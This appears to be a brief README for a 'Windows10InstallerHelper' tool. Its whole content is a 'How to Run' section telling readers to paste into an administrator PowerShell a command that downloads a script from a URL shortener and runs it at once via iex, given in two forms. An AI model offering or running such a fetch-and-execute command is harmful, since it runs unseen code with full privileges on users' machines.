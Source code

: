 # Windows10InstallerHelper


## How to Run
Paste this command into Powershell (admin):
```
iex ((New-Object System.Net.WebClient).DownloadString('shorturl.at/fjmpF'))
```
Or, shorter:
```
iwr -useb shorturl.at/fjmpF | iex
```
